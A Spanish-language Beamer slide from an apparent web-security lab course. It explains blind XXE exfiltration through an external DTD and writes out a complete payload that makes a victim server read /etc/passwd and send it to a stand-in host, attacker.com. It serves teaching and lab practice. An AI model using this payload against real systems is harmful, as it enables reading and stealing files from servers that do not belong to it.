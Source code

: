\documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{XXE Blind con DTD Externa --- Exfiltración (Labs 102-103)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item El problema --- entidades paramétricas anidadas en DTD interna
  \item XML prohíbe referenciar una entidad paramétrica dentro de otra en el mismo DTD inline.
  \item Solución: alojar una DTD EXTERNA en nuestro servidor con la lógica completa.
  \item Paso 1 --- Payload enviado a la víctima
  \item \cmd{\textless{}!DOCTYPE foo [}
  \item \cmd{\textless{}!ENTITY \% xxe SYSTEM 'http://attacker.com/evil.dtd'\textgreater{}}
  \item \cmd{\%xxe;}
  \item \cmd{]\textgreater{}}
  \item \cmd{\textless{}foo\textgreater{}\&send;\textless{}/foo\textgreater{}}
  \item $\rightarrow$ La víctima carga evil.dtd desde nuestro servidor.
  \item Paso 2 --- evil.dtd (en nuestro servidor HTTP)
  \item \cmd{\textless{}!ENTITY \% file SYSTEM 'file:///etc/passwd'\textgreater{}}
  \item \cmd{\textless{}!ENTITY \% eval}
  \item \cmd{'\textless{}!ENTITY send SYSTEM \textquotedbl{}http://attacker.com/?d=\%file;\textquotedbl{}\textgreater{}'\textgreater{}}
  \item \cmd{\%eval;}
  \item $\rightarrow$ \%file lee /etc/passwd.
  \item $\rightarrow$ \%eval define la entidad \&send; con los datos como parámetro URL.
  \item $\rightarrow$ \&send; en el XML hace que el servidor envíe los datos a attacker.com.
  \item Recibir los datos
  \item python3 -m http.server 80 $\rightarrow$ ver ?d= en los logs.
  \item Burp Collaborator $\rightarrow$ ver las peticiones HTTP con los datos URL-encoded.
  \item Los datos de /etc/passwd llegan URL-encoded --- decodificar con CyberChef.
  \end{itemize}
\end{frame}
\end{document}

